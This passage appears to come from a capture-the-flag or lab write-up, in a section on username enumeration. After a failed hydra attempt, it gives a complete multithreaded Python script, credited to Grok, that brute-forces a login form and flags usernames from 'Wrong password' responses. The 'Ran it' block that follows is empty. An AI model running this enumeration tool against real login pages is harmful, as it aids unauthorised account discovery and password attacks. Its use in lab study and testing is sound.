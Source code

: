 ### 4. Username Enumeration
- Tried `hydra` on the login form—failed to find passwords.
- Used a Python script (from Grok) to enumerate usernames:
  ```python
  import requests
  import threading
  from queue import Queue
  import argparse

  found_usernames = []
  lock = threading.Lock()
  q = Queue()

  def worker(url, password):
      while not q.empty():
          username = q.get()
          try:
              data = {"username": username, "password": password}
              response = requests.post(url, data=data)
              if "Wrong password" in response.text:
                  with lock:
                      found_usernames.append(username)
                      print(f"Username found: {username}")
          except requests.RequestException as e:
              print(f"Error testing {username}: {e}")
          finally:
              q.task_done()

  def main():
      parser = argparse.ArgumentParser(description='Username Enumeration Tool')
      parser.add_argument('-u', '--url', required=True)
      parser.add_argument('-w', '--wordlist', required=True)
      parser.add_argument('-p', '--password', default='password')
      parser.add_argument('-t', '--threads', type=int, default=10)
      args = parser.parse_args()

      with open(args.wordlist, 'r') as f:
          for line in f:
              username = line.strip()
              if username:
                  q.put(username)

      print(f"Starting enumeration with {args.threads} threads...")
      threads = []
      for _ in range(args.threads):
          t = threading.Thread(target=worker, args=(args.url, args.password))
          t.daemon = True
          t.start()
          threads.append(t)

      q.join()
      print("\nEnumeration complete!")
      if found_usernames:
          print("Valid usernames found:")
          for username in found_usernames:
              print(f"  - {username}")

  if __name__ == '__main__':
      main()
  ```
- Ran it:
  ```bash
  ```